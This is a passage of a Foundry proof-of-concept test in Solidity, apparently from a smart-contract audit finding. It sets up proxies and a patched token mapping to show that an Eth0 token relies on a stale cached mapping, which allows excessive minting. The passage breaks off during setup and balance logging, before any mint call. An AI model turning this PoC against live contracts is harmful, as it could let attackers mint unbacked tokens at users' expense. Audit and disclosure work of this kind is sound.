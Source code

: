 ```solidity
        ERC1967Proxy eth0PocProxy = new ERC1967Proxy(address(eth0PocImpl), eth0PocInitData);
        _eth0Poc = Eth0(address(eth0PocProxy));
        vm.label(address(_eth0Poc), "PoCEth0 (Proxy)");

        registryAccess.grantRole(MINT_CAP_OPERATOR, admin);
        _eth0Poc.setMintCap(1_000_000_000 * 1e18); 
        
        registryAccess.grantRole(ETH0_MINT, _minterPoc); 

        // Deploy _patchedTokenMappingInstance via proxy
        TokenMapping patchedImpl = new TokenMapping();
        bytes memory patchedInitData = abi.encodeWithSelector(TokenMapping.initialize.selector, address(registryAccess), address(registryContract));
        ERC1967Proxy patchedProxy = new ERC1967Proxy(address(patchedImpl), patchedInitData);
        _patchedTokenMappingInstance = TokenMapping(address(patchedProxy));
        vm.label(address(_patchedTokenMappingInstance), "PatchedTokenMappingInstance");
        _patchedTokenMappingInstance.addEth0CollateralToken(address(_tokenAPoc));
        // Note: _patchedTokenMappingInstance is NOT yet set in the registry here.
        // It will be set in the test function right before the exploit attempt.

        vm.stopPrank(); 
    }

    function testPocStaleCachedTokenMappingAllowsExcessiveMint() public { 
        _setUpPocEnvironment(); 

        vm.startPrank(admin);
        registryContract.setContract(CONTRACT_TOKEN_MAPPING, address(_patchedTokenMappingInstance));
        console.log("Registry updated to use _patchedTokenMappingInstance: ", address(_patchedTokenMappingInstance));
        vm.stopPrank();

        vm.startPrank(_minterPoc);

        console.log("--- Scenario: Exploiting _eth0Poc (uses STALE _vulnerableTokenMappingInstance) ---");
        
        // Log INITIAL Treasury balances for tokens involved in VULNERABLE backing calculation
        uint256 initialTokenABalanceInTreasury = _tokenAPoc.balanceOf(treasury); 
        console.log("[Vulnerable Scenario] Initial balance of _tokenAPoc in Treasury: ", initialTokenABalanceInTreasury);
        uint256 initialTokenToRemoveBalanceInTreasury = _tokenToRemovePoc.balanceOf(treasury);
        console.log("[Vulnerable Scenario] Initial balance of _tokenToRemovePoc in Treasury: ", initialTokenToRemoveBalanceInTreasury);

        uint256 tokenAPriceWadVuln = _classicalOraclePoc.getPrice(address(_tokenAPoc));
        uint256 tokenToRemovePriceWadVuln = _classicalOraclePoc.getPrice(address(_tokenToRemovePoc));
        
        uint256 backingForTokenAVuln = (initialTokenABalanceInTreasury * tokenAPriceWadVuln) / (10**_FEED_DECIMALS_POC);
        uint256 backingForTokenToRemoveVuln = (initialTokenToRemoveBalanceInTreasury * tokenToRemovePriceWadVuln) / (10**_FEED_DECIMALS_POC);
        uint256 expectedBackingWithVulnerableWad = backingForTokenAVuln + backingForTokenToRemoveVuln;

        console.log("Price of TokenA (used by vulnerable PoCEth0): ", tokenAPriceWadVuln);
        console.log("Price of TokenToRemove (used by vulnerable PoCEth0): ", tokenToRemovePriceWadVuln);
        console.log("Calculated backing with VULNERABLE mapping (_eth0Poc perspective): ", expectedBackingWithVulnerableWad);

```